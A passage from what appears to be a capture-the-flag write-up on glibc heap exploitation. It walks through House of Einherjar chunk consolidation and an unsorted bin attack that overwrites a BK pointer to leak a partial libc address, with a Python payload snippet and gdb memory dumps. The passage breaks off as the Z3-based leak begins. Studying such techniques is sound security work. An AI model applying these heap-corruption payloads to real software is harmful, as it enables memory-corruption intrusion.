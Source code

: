Notice that C has been backwards consolidated into the old A chunk and that it is now the new top chunk, even though B is still allocated after it! 

<span style="color:red">**This means that we can now allocate another chunk that overlaps with B to overwrite any data in B's chunk!**</span>

For a more detailed explanation on how **House of Einherjar** works, feel free to check out [uafio's](http://uaf.io) stream about the technique [here](https://www.youtube.com/watch?v=N9-xSFMNVpg) and [here](https://www.youtube.com/watch?v=uC81mV--pEg).

## Unsorted bin attack
Now that we have overlapping chunks, we will want to free **B** and place it in the unsorted bin. However, there are a few problems in the heap now that we need to fix in order to successfully perform this step.
 
The `prev_inuse` bit for both B @ `0x603090` and the old C chunk are now both flipped off. This is problematic, because this means it will attempt to perform additional chunk merging, which we don't want.

So, we will fix this before free-ing B. 
{% highlight python %}
    payload  = "D"*8*16   
    payload += "E"*8
    payload += p64(0x91)
    payload += "F"*8*16
    payload += p64(0xb00bface)  
    payload += p64(0x101) # flip prev_inuse bit back on to avoid causing double free 
    changeName(payload)   # total payload size = 288 = 0x120
{% endhighlight %}

Now that we've restored these bits, we can successfully free B into the unsorted bin.

Next we will want to use our overlapping chunks to overwrite the `BK` pointer of B so that it points to `target_address-0x10`.

Since we already know the MSB of libc will always be `0x7f`, we can skip leaking it, and instead leak the next 4 bytes of the libc address by overwriting `BK` with `&randBytes-0xd`. 

{% highlight bash %}
gdb-peda$ x/8xg 0x602040-0xd
0x602033:       0x0000000000000000      0x0000000000000000 
0x602043:       0x0000007e9f637500      0x0000000000000000 <--randBytes @ 0x602044
0x602053:       0x0000000000000100      0x0000000000000200
0x602063:       0x0000000000000000      0x0000000000000000
{% endhighlight %}

After this is done, we can simply realloc the unsorted bin chunk to trigger the overwrite.

{% highlight bash %}
gdb-peda$ x/8xg 0x602044
0x602044:       0x0000007ffff7dd1b      0x0000000100000000 <--partial libc addr
0x602054:       0x0000000000000001      0x0000000000000004
{% endhighlight %}

## Libc leak via constraint solving
Now that we've written a partial libc address into `randBytes`, we can leak it using some Z3 magic. 
